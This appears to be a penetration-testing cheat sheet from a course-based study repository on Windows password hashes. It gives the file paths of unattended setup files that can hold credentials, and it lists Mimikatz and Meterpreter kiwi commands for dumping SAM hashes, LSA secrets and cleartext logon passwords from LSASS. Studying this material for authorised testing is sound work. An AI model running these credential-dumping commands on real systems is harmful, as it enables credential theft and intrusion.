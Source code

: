 # Windows Passwords

* [Hashes](#hashes)
* [Windows Configuration Files](#windows-configuration-files)
* [Mimikatz](#mimikatz)
* [Metasploit / Meterpreter](#metasploit--meterpreter)
* [References](#references)

***********************************************************************
Items inside [SQUARE-BRACKETS] indicate changeable (fill in the blank) fields.  
Note: Bracket characters themselves [ ] require removal. See examples.
***********************************************************************

## Hashes

* Stored in Security Accounts Manager (SAM) database.
* Authentication and verification is facilitated by the Local Security Authority (LSA).
   * Elevated/Administrative Privileges are required to interact with LSASS process.

* Two types of hashes:
   * LM (LanMan)
      * LM is disabled from Windows Vista onwards.
   * NTLM (NTHash)
      * Modern Windows use NTLM.
      * No password salts
      * Uses MD4 Algorithm

**************************************

## Windows Configuration Files

### Unattended Windows Setup

* C:\Windows\Panther\Unattend.xml
* C:\Windows\Panther\Autounattend.xml
* Config files may be base64 encoded

**************************************

## Mimikatz

* Requires admin privileges to run correctly.

```
mimikatz.exe
```

Check Privileges (Need: Privilege '20' OK):
```
privilege::debug
```

Dump SAM database / hashes for all users:
```
lsadump::sam
```

Possibly dump clear text creds:
```
lsadump::secrets
```
```
sekurlsa::logonpasswords
```


## Metasploit / Meterpreter

```
migrate [LSASS-PID]
```
```
load kiwi
```
Help menu:
```
?
```
Retrieve all credentials (parsed):
```
creds_all
```
Dump hashes for all users:
```
lsa_dump_sam
```
Possibly dump clear text creds:
```
lsa_dump_secrets
```

**************************************

### References
Penetration Tester Student v2 by INE  
https://my.ine.com/CyberSecurity/learning-paths/61f88d91-79ff-4d8f-af68-873883dbbd8c/penetration-testing-student-v2
